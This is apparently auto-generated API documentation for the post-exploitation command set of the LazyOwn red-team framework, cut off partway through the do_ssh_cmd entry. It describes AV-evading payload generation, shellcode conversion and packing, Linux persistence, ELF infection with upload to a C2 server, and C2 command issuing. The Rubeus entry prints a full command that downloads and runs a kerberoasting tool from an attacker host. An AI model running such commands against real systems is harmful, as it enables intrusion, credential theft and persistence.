


# `cli.commands.postexp_migrated`

> Source: [cli/commands/postexp_migrated.py:1](../../cli/commands/postexp_migrated.py#L1) | language `py` | coverage 97.4% | [API index](../index.md)

postexp commands migrated from lazyown.py.

Auto-generated by scripts/migrate_lazyown.py.

## Contents

- **Classes:** [`PostexpMigratedCommandSet`](#postexpmigratedcommandset)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="postexpmigratedcommandset"></a>

### `PostexpMigratedCommandSet`

`class` | [cli/commands/postexp_migrated.py:32](../../cli/commands/postexp_migrated.py#L32)

```python
class PostexpMigratedCommandSet(LazyOwnCommandSet)
```

Bases: [`LazyOwnCommandSet`](cli.commands._base.py.md#lazyowncommandset)

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`phase`](#postexpmigratedcommandset-phase) |  | `'postexp'` |  |
| [`category`](#postexpmigratedcommandset-category) |  | `'04. Post-Exploitation'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`do_find`](#postexpmigratedcommandset-do_find) | method | Automates command execution based on a list of aliases and commands. |
| [`do_cports`](#postexpmigratedcommandset-do_cports) | method | Generates a command to display TCP and UDP ports and copies it to the clipboard. |
| [`do_rubeus`](#postexpmigratedcommandset-do_rubeus) | method | Copies a command to the clipboard for downloading and running Rubeus. |
| [`do_sessionsshstrace`](#postexpmigratedcommandset-do_sessionsshstrace) | method | Attach strace to a running process and log output to a file. |
| [`do_powershell_cmd_stager`](#postexpmigratedcommandset-do_powershell_cmd_stager) | method | Generate and execute a PowerShell command stager to run a .ps1 script. |
| [`do_shellcode_search`](#postexpmigratedcommandset-do_shellcode_search) | method | Search the shell-storm API for shellcodes using the provided keywords. |
| [`do_shellcode2sylk`](#postexpmigratedcommandset-do_shellcode2sylk) | method | Converts shellcode to SYLK format and saves the result to a file. |
| [`do_pezorsh`](#postexpmigratedcommandset-do_pezorsh) | method | Executes the PEzor tool to pack executables or shellcode with custom configurations. |
| [`do_pip_repo`](#postexpmigratedcommandset-do_pip_repo) | method | Sets up a local pip repository to serve Python packages for installation on a compromised machine without internet access. |
| [`do_apt_repo`](#postexpmigratedcommandset-do_apt_repo) | method | Creates a comprehensive local APT repository with enhanced dependency resolution. |
| [`do_createpayload`](#postexpmigratedcommandset-do_createpayload) | method | Generates an obfuscated payload to evade AV detection using the payloadGenerator tool. thanks to smokeme |
| [`do_bin2shellcode`](#postexpmigratedcommandset-do_bin2shellcode) | method | Converts a binary file to a shellcode string in C or Nim format. |
| [`do_exe2bin`](#postexpmigratedcommandset-do_exe2bin) | method | Trasnform file .exe into binary file. |
| [`do_exe2donutbin`](#postexpmigratedcommandset-do_exe2donutbin) | method | Trasnform file .exe into donut binary file. |
| [`do_issue_command_to_c2`](#postexpmigratedcommandset-do_issue_command_to_c2) | method | Exec command in the client using the C2. download: command you must put the file in sessions/temp_upload or use download_c2 command |
| [`do_d3monizedshell`](#postexpmigratedcommandset-do_d3monizedshell) | method | Executes the D3m0n1z3dShell tool for persistence in Linux. |
| [`do_scp`](#postexpmigratedcommandset-do_scp) | method | Copies the local "sessions" directory to a remote host using scp, leveraging sshpass for automated authentication. |
| [`do_apt_proxy`](#postexpmigratedcommandset-do_apt_proxy) | method | Configures the local machine with internet access to act as an APT proxy for a machine without internet access. |
| [`do_pip_proxy`](#postexpmigratedcommandset-do_pip_proxy) | method | Configures the local machine with internet access to act as a pip proxy for a machine without internet access. |
| [`do_internet_proxy`](#postexpmigratedcommandset-do_internet_proxy) | method | Configures the local machine with internet access to act as a proxy for a machine without internet access. |
| [`do_shellcode2elf`](#postexpmigratedcommandset-do_shellcode2elf) | method | Convert shellcode into an ELF file and infect it. |
| [`do_ssh_cmd`](#postexpmigratedcommandset-do_ssh_cmd) | method | Perform Remote Execution Command through SSH using configured start_user. |
| [`do_service_ssh`](#postexpmigratedcommandset-do_service_ssh) | method | Creates a systemd service file for a specified binary and generates a script to enable and start the service. |
| [`do_ofuscatesh`](#postexpmigratedcommandset-do_ofuscatesh) | method | Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it. |
| [`do_ofuscate_payload`](#postexpmigratedcommandset-do_ofuscate_payload) | method | Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it. |
| [`do_adversary`](#postexpmigratedcommandset-do_adversary) | method | LazyOwn RedTeam Adversary Emulator, you can configure your own adversaries in adversary.json |
| [`do_ofuscate_string`](#postexpmigratedcommandset-do_ofuscate_string) | method | Ofuscate a string into Go code. |
| [`do_path2hex`](#postexpmigratedcommandset-do_path2hex) | method | Convert a binary path to x64 little-endian hex code for shellcode injection. |
| [`do_hex2shellcode`](#postexpmigratedcommandset-do_hex2shellcode) | method | Convert raw hex payload from msfvenom into NASM-compatible shellcode format. |
| [`do_create_synthetic`](#postexpmigratedcommandset-do_create_synthetic) | method | Create a basic synthetic playbook from Nmap CSV when LLM fails. |
| [`do_extract_yaml`](#postexpmigratedcommandset-do_extract_yaml) | method | Extract YAML from an existing debug file and try to create a playbook. |
| [`do_convert_remcomsvc_from_file`](#postexpmigratedcommandset-do_convert_remcomsvc_from_file) | method | Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go. see lazyaddon... |
| [`do_adversary_yaml`](#postexpmigratedcommandset-do_adversary_yaml) | method | Execute adversary from YAML in lazyadversaries/*.yaml Syntax: adversary [id] [l\|r\|n] |
| [`do_add2find`](#postexpmigratedcommandset-do_add2find) | method | Add a new custom command to the 'find' system, saved in user_commands.json. |
| [`do_rmfromfind`](#postexpmigratedcommandset-do_rmfromfind) | method | Remove a custom command by index (as shown in 'find'). |
| [`do_aes_pe`](#postexpmigratedcommandset-do_aes_pe) | method | Encrypt with AES and random key to PE EXE file, to usage with loaders. |
| [`do_yara_scan`](#postexpmigratedcommandset-do_yara_scan) | method | Scan files or directories with YARA rules for malware/IOCs. |

<a id="postexpmigratedcommandset-do_find"></a>

#### `PostexpMigratedCommandSet.do_find`

`method` | [cli/commands/postexp_migrated.py:37](../../cli/commands/postexp_migrated.py#L37)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_find(self, line='')
```

Automates command execution based on a list of aliases and commands.

1. Displays available aliases and their commands.
2. Asks the user if they want to execute a specific command.
3. If confirmed, displays the alias and command with a number.
4. Executes the command and copies it to the clipboard.


Manual execution:
- Prepare the list of alias and command pairs in the format: "alias command".
- Provide this list as input to the function.
- Confirm the execution of the desired command when prompted.
- Manually copy the command to the clipboard if needed.

Note: Ensure `xclip` is installed and properly configured to use clipboard functionalities.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` | `''` | The command line input containing a keyword to filter the list of alias and command pairs. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`check_lhost`](core.validators.py.md#check_lhost)

<a id="postexpmigratedcommandset-do_cports"></a>

#### `PostexpMigratedCommandSet.do_cports`

`method` | [cli/commands/postexp_migrated.py:533](../../cli/commands/postexp_migrated.py#L533)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_cports(self, line)
```

Generates a command to display TCP and UDP ports and copies it to the clipboard.

This function performs the following actions:
1. Defines a command to display TCP and UDP ports from `/proc/net/tcp` and `/proc/net/udp`, respectively.
2. The command extracts and formats IP addresses and port numbers from these files.
3. Prints the generated command to the console for verification.
4. Copies the command to the clipboard using `xclip`.

Usage:
    cports  # Generates the command and copies it to the clipboard


Manual execution:
To manually use this function:
1. Run the function to print the command and copy it to the clipboard.
2. The command can be pasted into a terminal to display TCP and UDP ports.

Note: Ensure `xclip` is installed on your system for copying to the clipboard. If `xclip` is not available, you may need to install it or use an alternative method for copying to the clipboard.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This parameter is not used in this function. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_rubeus"></a>

#### `PostexpMigratedCommandSet.do_rubeus`

`method` | [cli/commands/postexp_migrated.py:578](../../cli/commands/postexp_migrated.py#L578)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_rubeus(self, line)
```

Copies a command to the clipboard for downloading and running Rubeus.

1. Checks if `self.params['lhost']` (local host IP) is set:
    - If `self.params['lhost']` is not set, displays an error message and exits the function.

2. If `self.params['lhost']` is set:
    - Displays a message indicating that the Rubeus downloader command has been copied to the clipboard.
    - The copied command downloads Rubeus from the specified `self.params['lhost']` and saves it as `Rubeus.exe`.
    - Uses `xclip` to copy the following command to the clipboard:
    - `iwr -uri http://{self.params['lhost']}/Rubeus.exe -OutFile Rubeus.exe ; .\Rubeus.exe kerberoast /creduser:self.params['domain'].local\usuario /credpassword:password`


Manual execution:
To manually run these tasks, you would need to:
- Ensure that `self.params['lhost']` is assign correctly.
- Use `xclip` to copy the provided command to the clipboard.
- Execute the downloaded Rubeus executable with the provided arguments.

Note: Ensure `xclip` is installed and available on your system.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Not used in this function. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_sessionsshstrace"></a>

#### `PostexpMigratedCommandSet.do_sessionsshstrace`

`method` | [cli/commands/postexp_migrated.py:618](../../cli/commands/postexp_migrated.py#L618)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_sessionsshstrace(self, line)
```

Attach strace to a running process and log output to a file.

This function attaches `strace` to a process specified by its PID,
tracing system calls related to writing data. The output of `strace`
is saved to a file named `strace.txt` in the `sessions` directory.

- line (str): The PID of the process to attach strace to.

- ValueError: If the `line` parameter is empty.
- FileNotFoundError: If `strace` is not installed.

- Ensure the `sessions` directory exists or is created before running the command.
- The command redirects both stdout and stderr to the `strace.txt` file.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
- `sessionsshstrace 666`: Attach strace to process with PID 666.
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`copy2clip`](utils.py.md#copy2clip), [`salida_strace`](utils.py.md#salida_strace), [`teclado_usuario`](utils.py.md#teclado_usuario)

<a id="postexpmigratedcommandset-do_powershell_cmd_stager"></a>

#### `PostexpMigratedCommandSet.do_powershell_cmd_stager`

`method` | [cli/commands/postexp_migrated.py:669](../../cli/commands/postexp_migrated.py#L669)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_powershell_cmd_stager(self, line)
```

Generate and execute a PowerShell command stager to run a .ps1 script.

This function takes the name of a PowerShell script (.ps1), encodes its content in base64,
and constructs a command to execute the script using PowerShell in a hidden and elevated manner.
The function then prints the generated command.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | The name of the PowerShell script file to encode and execute. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`copy2clip`](utils.py.md#copy2clip)

<a id="postexpmigratedcommandset-do_shellcode_search"></a>

#### `PostexpMigratedCommandSet.do_shellcode_search`

`method` | [cli/commands/postexp_migrated.py:706](../../cli/commands/postexp_migrated.py#L706)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_shellcode_search(self, line)
```

Search the shell-storm API for shellcodes using the provided keywords.

This function sends a GET request to the shell-storm API with the specified keywords.
It then prints the results.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | A string containing the keywords to search for. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`clean_html`](utils.py.md#clean_html), [`extract`](utils.py.md#extract)

<a id="postexpmigratedcommandset-do_shellcode2sylk"></a>

#### `PostexpMigratedCommandSet.do_shellcode2sylk`

`method` | [cli/commands/postexp_migrated.py:754](../../cli/commands/postexp_migrated.py#L754)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_shellcode2sylk(self, line)
```

Converts shellcode to SYLK format and saves the result to a file.

This function reads the provided shellcode, or retrieves it from a default
binary source if not supplied. The shellcode is then converted to SYLK
format and saved in the `sessions/shellcode.sylk` file.

PoC Python code to create a SYLK file with Excel4 shellcode loader.

Author: Stan Hegt (@StanHacked)

Just a proof of concept. Needs polishing before use in actual operations.
Or as Adam Chester would put it: "RWX for this POC, because... yolo"

Background details: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format/

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The input shellcode string. If empty or None, the function attempts to load shellcode from a predefined source. |

**Returns:** `None` - The function writes the SYLK shellcode to a file and prints it
out, but does not return any value.

**Raises**

- `FileNotFoundError`: If no shellcode is found when trying to load it from the default source.

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_users_dic`](utils.py.md#get_users_dic), [`shellcode_to_sylk`](utils.py.md#shellcode_to_sylk)

<a id="postexpmigratedcommandset-do_pezorsh"></a>

#### `PostexpMigratedCommandSet.do_pezorsh`

`method` | [cli/commands/postexp_migrated.py:799](../../cli/commands/postexp_migrated.py#L799)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_pezorsh(self, line)
```

Executes the PEzor tool to pack executables or shellcode with custom configurations.

This function enables the user to construct commands for PEzor with various options.
By default, parameters are prompted to ensure successful execution without failure due to
missing values. It supports both executable and shellcode packing with the ability to
select from a range of PEzor flags to create the desired payload.

Functionalities of the function include:
1. Prompting the user to specify if they want to pack an executable or shellcode.
2. Gathering parameters for different PEzor flags based on user choices.
3. Building the command dynamically to execute PEzor.sh with the configured options.

Example commands the function can build:
- Pack an executable with 64-bit, debug, and anti-debug options.
- Pack shellcode with self-injection and sleep options.

Usage:
    - Run 'PEzor <EXECUTABLE> [donut args...]' to pack an executable with donut options.
    - Run 'PEzor <SHELLCODE>' to pack shellcode.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | String containing initial command-line arguments or options. |

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_pip_repo"></a>

#### `PostexpMigratedCommandSet.do_pip_repo`

`method` | [cli/commands/postexp_migrated.py:872](../../cli/commands/postexp_migrated.py#L872)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_pip_repo(self, line)
```

Sets up a local pip repository to serve Python packages for installation on a compromised machine without internet access.

This function performs the following steps:
1. Creates necessary directories for the pip repository.
2. Checks for the presence of `pip-compile` and installs it if missing.
3. Downloads a predefined list of Python packages to the local repository.
4. Compiles the requirements for each package and downloads the compiled dependencies.
5. Organizes the downloaded packages into a structured directory format.
6. Generates an index for the pip repository.
7. Serves the pip repository over HTTP, allowing the compromised machine to install packages from this local repository.

line (str): Command line input (not used in this function).

None

Example Usage:
```
pip_repo
```

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`generate_index`](utils.py.md#generate_index)

<a id="postexpmigratedcommandset-do_apt_repo"></a>

#### `PostexpMigratedCommandSet.do_apt_repo`

`method` | [cli/commands/postexp_migrated.py:984](../../cli/commands/postexp_migrated.py#L984)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_apt_repo(self, line)
```

Creates a comprehensive local APT repository with enhanced dependency resolution.

Improvements:
1. More robust dependency and metadata handling
2. Better error checking and logging
3. Comprehensive package and dependency management

line (str): A space-separated list of package names to include in the repository.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`copy2clip`](utils.py.md#copy2clip), [`generate_index`](utils.py.md#generate_index), [`get_credentials`](utils.py.md#get_credentials)

<a id="postexpmigratedcommandset-do_createpayload"></a>

#### `PostexpMigratedCommandSet.do_createpayload`

`method` | [cli/commands/postexp_migrated.py:1233](../../cli/commands/postexp_migrated.py#L1233)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_createpayload(self, line)
```

Generates an obfuscated payload to evade AV detection using the payloadGenerator tool. thanks to smokeme

This function:
    - Clones the payloadGenerator repository if not already cloned.
    - Installs .NET Framework 4.5 if not already installed.
    - Executes the generator.py script with the provided IP, port, and XOR key.
    - Displays the result in the terminal.
Behavior:
    - Requires `git` and `dotnet` to be installed.
    - Uses parameters from `self.params` for IP, port, and XOR key.

Usage:
    createpayload

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | lenght of xor key |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`generate_xor_key`](core.crypto.py.md#generate_xor_key)

<a id="postexpmigratedcommandset-do_bin2shellcode"></a>

#### `PostexpMigratedCommandSet.do_bin2shellcode`

`method` | [cli/commands/postexp_migrated.py:1285](../../cli/commands/postexp_migrated.py#L1285)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_bin2shellcode(self, line)
```

Converts a binary file to a shellcode string in C or Nim format.

This function:
    - Reads a binary file and converts its contents to a shellcode string.
    - Supports both C and Nim formats.
    - Displays the result in the terminal and saves it to a file.

Behavior:
    - Requires the filename, width, quotes, and format parameters.
    - Uses default values if parameters are not provided.
    - Uses parameters from `self.params` for filename, width, quotes, and format.

Usage:
    bin2shellcode [<filename> [<width> [<quotes> [<format>]]]]
    bin2shellcode sessions/shellcode.bin 20 True c

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="postexpmigratedcommandset-do_exe2bin"></a>

#### `PostexpMigratedCommandSet.do_exe2bin`

`method` | [cli/commands/postexp_migrated.py:1375](../../cli/commands/postexp_migrated.py#L1375)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_exe2bin(self, line)
```

Trasnform file .exe into binary file.

Return shellcode.bin file in sessions directory

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Ruta del archivo ejecutable .exe. |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="postexpmigratedcommandset-do_exe2donutbin"></a>

#### `PostexpMigratedCommandSet.do_exe2donutbin`

`method` | [cli/commands/postexp_migrated.py:1402](../../cli/commands/postexp_migrated.py#L1402)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_exe2donutbin(self, line)
```

Trasnform file .exe into donut binary file.

Return shellcode.bin file in sessions directory

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | path to the .exe. |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="postexpmigratedcommandset-do_issue_command_to_c2"></a>

#### `PostexpMigratedCommandSet.do_issue_command_to_c2`

`method` | [cli/commands/postexp_migrated.py:1426](../../cli/commands/postexp_migrated.py#L1426)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_issue_command_to_c2(self, line)
```

Exec command in the client using the C2. download: command you must put the file in sessions/temp_upload or use download_c2 command

command (str): client_id [optional], Command to exec.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

<a id="postexpmigratedcommandset-do_d3monizedshell"></a>

#### `PostexpMigratedCommandSet.do_d3monizedshell`

`method` | [cli/commands/postexp_migrated.py:1450](../../cli/commands/postexp_migrated.py#L1450)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_d3monizedshell(self, line)
```

Executes the D3m0n1z3dShell tool for persistence in Linux.

This function:
    - Installs D3m0n1z3dShell if not already installed.
    - Executes the D3m0n1z3dShell command with the provided parameters.
    - Displays the result in the terminal.

Behavior:
    - Requires `git` and `curl` to be installed.
    - Uses a one-liner installation method for simplicity.

Usage:
    d3monizedshell

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="postexpmigratedcommandset-do_scp"></a>

#### `PostexpMigratedCommandSet.do_scp`

`method` | [cli/commands/postexp_migrated.py:1483](../../cli/commands/postexp_migrated.py#L1483)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_scp(self, line)
```

Copies the local "sessions" directory to a remote host using scp, leveraging sshpass for automated authentication.

Steps:
    1. Verifies if the credentials file exists in the "sessions" directory.
    If not, prompts the user for a username and password.
    2. Reads the credentials file if it exists and extracts the username and password.
    3. Constructs an scp command to deploy the "sessions" directory to the remote host.
    4. Executes the scp command using the system shell.

Dependencies:
    - The `sshpass` command-line tool must be installed on the local machine.
    - `scp` must be installed on both the local and remote machines.
    - The remote host must be accessible via SSH.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Input command line (optional). The third parameter can be 'win' or 'lin' to specify the target OS. |

**Returns:** None

**Raises**

- `- KeyError: If `self.params['rhost']` is not provided in `self.params`.`
- `- FileNotFoundError: If the "sessions" directory does not exist.`

> **Note:** - The `credentials.txt` file, if present, should have credentials in the format `username:password`
> on the first line.

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`get_credentials`](utils.py.md#get_credentials)

<a id="postexpmigratedcommandset-do_apt_proxy"></a>

#### `PostexpMigratedCommandSet.do_apt_proxy`

`method` | [cli/commands/postexp_migrated.py:1579](../../cli/commands/postexp_migrated.py#L1579)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_apt_proxy(self, line)
```

Configures the local machine with internet access to act as an APT proxy for a machine without internet access.

Steps:
    1. Installs and configures apt-cacher-ng on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The IP address of the remote machine without internet access. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`copy2clip`](utils.py.md#copy2clip)

<a id="postexpmigratedcommandset-do_pip_proxy"></a>

#### `PostexpMigratedCommandSet.do_pip_proxy`

`method` | [cli/commands/postexp_migrated.py:1635](../../cli/commands/postexp_migrated.py#L1635)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_pip_proxy(self, line)
```

Configures the local machine with internet access to act as a pip proxy for a machine without internet access.

Steps:
    1. Installs and configures squid on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The IP address of the remote machine without internet access. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`copy2clip`](utils.py.md#copy2clip)

<a id="postexpmigratedcommandset-do_internet_proxy"></a>

#### `PostexpMigratedCommandSet.do_internet_proxy`

`method` | [cli/commands/postexp_migrated.py:1693](../../cli/commands/postexp_migrated.py#L1693)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_internet_proxy(self, line)
```

Configures the local machine with internet access to act as a proxy for a machine without internet access.

Steps:
    1. Installs and configures squid on the local machine.
    2. Generates the necessary commands to configure the remote machine to use the proxy.
    3. Copies the commands to the clipboard using the copy2clip function.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The IP address of the remote machine without internet access. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`copy2clip`](utils.py.md#copy2clip)

<a id="postexpmigratedcommandset-do_shellcode2elf"></a>

#### `PostexpMigratedCommandSet.do_shellcode2elf`

`method` | [cli/commands/postexp_migrated.py:1755](../../cli/commands/postexp_migrated.py#L1755)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_shellcode2elf(self, line)
```

Convert shellcode into an ELF file and infect it.

This function takes an optional input line that specifies the name of the shellcode file.
If no input line is provided, a filename is generated based on the self.params['domain']. The function reads
the shellcode and inserts it into a C source file, then compiles the source file into an ELF
file. It also creates an infected version of the ELF file and uploads all generated files to a
command and control (C2) server.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | An optional input line that specifies the name of the shellcode file. |

**Returns:** None

*Calls:* [`copy2clip`](utils.py.md#copy2clip), [`get_users_dic`](utils.py.md#get_users_dic)

<a id="postexpmigratedcommandset-do_ssh_cmd"></a>

#### `PostexpMigratedCommandSet.do_ssh_cmd`

`method` | [cli/commands/postexp_migrated.py:1837](../../cli/commands/postexp_migrated.py#L1837)

Decorators: `@cmd2.with_category('04. Post-Exploitation')`

```python
def do_ssh_cmd(self, line)
```

Perform Remote Execution Command through SSH using configured start_user.

See help grisun0 for backdoor user configuration.

**Parameters**

